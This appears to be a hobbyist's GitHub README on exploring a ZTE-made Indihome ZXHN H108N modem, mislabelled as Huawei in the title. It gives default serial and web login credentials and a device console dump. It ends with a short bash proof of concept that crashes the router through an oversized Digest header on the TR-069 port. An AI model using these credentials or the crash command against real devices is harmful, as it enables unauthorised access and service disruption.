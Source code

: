 # Oprek Modem Indihome Huawei ZXHN H108N

Goal:

- [ ] Gain root access (not yet works)
- [ ] Make it as Access Point, WAN From ethernet (not yet works)

Firmware:
- https://github.com/ndunks/kumpulan-firmware/tree/master/router

If you have Broadcom version, you can use OpenWRT:
https://openwrt.org/toh/zte/zxhnh108n

This device is Ralink chipset, No root access

## Serial Connection

No root access here.

![Huawei ZXHN H108N Serial Line](images/back-open-serial.jpg)

Password for Serial: theworldinyourhand

for web login: user: support, pwd: theworldinyourhand

**Some Information:**

```
ZTE> sys version

 RAS version: ZXHN H108NV4.0.1a_ZRQ_ID_D67                                     
 System   ID: $2.12.186.0(G94.BY.4)3.20.39.20  20140909_v004  [Sep  9 2014 10:12:52]
 romRasSize: 1664518 
 system up time:     0:10:20 (f273 ticks)
 bootbase version: VTC_SPI_8M1.16 |  2012/12/26

ZTE> sys atsh

RAS version            : ZXHN H108NV4.0.1a_ZRQ_ID_D67                                    
romRasSize             : 1664518
bootbase version       : VTC_SPI_8M1.16 |  2012/12/26
Product Model          : ZXHN H108N
Serial Number          : ZTEERQCG5V02440
MAC Address            : 343759D9B8D0
Default Country Code   : FF
Boot Module Debug Flag : 00
RomFile Version        : 16
RomFile Checksum       : 7076
RAS F/W Checksum       : 9605
SNMP MIB level & OID   : 050000000100000002000000030000000400000005
Main Feature Bits      : 86
Other Feature Bits     :
93 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 13 00 00 00

ZTE> sys feature

IPX: yes
IP ONLY: no
AUI: no
AB ADAPTER: no
IDSL ONLY: no
IDSL: no
INTERNAL HUB: no
VLAN_8021Q[web]: no
PKT QoS[web]: no
ACL[web]: no
Filter[web]: no
ADSL[web]: yes
USB[web]: no
Firewall[web]: no
Reverse ETH Ports[web]: no
Half Bridge[web]: no
dy.fi DNS: yes
DDNS: yes
tr069: yes

```

## Rooting

**Vulnerabilities:**

- https://sudonull.com/post/59881-Too-many-cooks-or-hacking-the-Internet-with-TR-069


**Crash/Reboot PoC:**

``` bash
repeat(){ for i in {1..600}; do echo -n "$1"; done; }
curl -H "Authorization: Digest username=$(repeat x)" 192.168.1.1:7547/tr069

```
